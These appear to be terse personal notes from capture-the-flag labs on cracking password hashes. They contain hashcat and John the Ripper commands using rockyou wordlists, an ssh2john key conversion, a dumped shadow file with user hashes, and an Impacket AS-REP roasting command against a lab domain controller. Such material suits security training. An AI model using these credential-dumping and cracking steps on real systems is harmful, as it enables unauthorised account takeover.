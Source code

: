 sudo hashcat -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /usr/share/wordlists/rockyou.txt  
sudo hashcat -m 3200 -a 0 -o found '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt 

https://unicornsec.com/home/tryhackme-crack-the-hash
hashcat -m 1800 '$6$GQXVvW4EuM$ehD6jWiMsfNorxy5SINsgdlxmAEl3.yif0/c3NqzGLa0P.S7KRDYjycw5bnYkF5ZtB8wQy8KnskuWQS3Yr1wQ0' /usr/share/wordlists/rockyou.txt  

LTLM
hashcat -m 1000 -a 3 -w 3 a /usr/share/wordlists/rockyou.txt --show

hashcat hash /usr/share/wordlists/rockyou.txt -m 0 --force

/home/kali/tools/cracker/john/run/ssh2john.py id_rsa > id_rsa.hash

john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt



```
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

cat hash.txt
$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3
hashcat -m 7400 hash.txt /usr/share/wordlists/rockyou.txt --force
```


```
 GetNPUsers.py -format john -no-pass -k -usersfile users -dc-ip 10.10.10.161 HTB.LOCAL/

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 

```

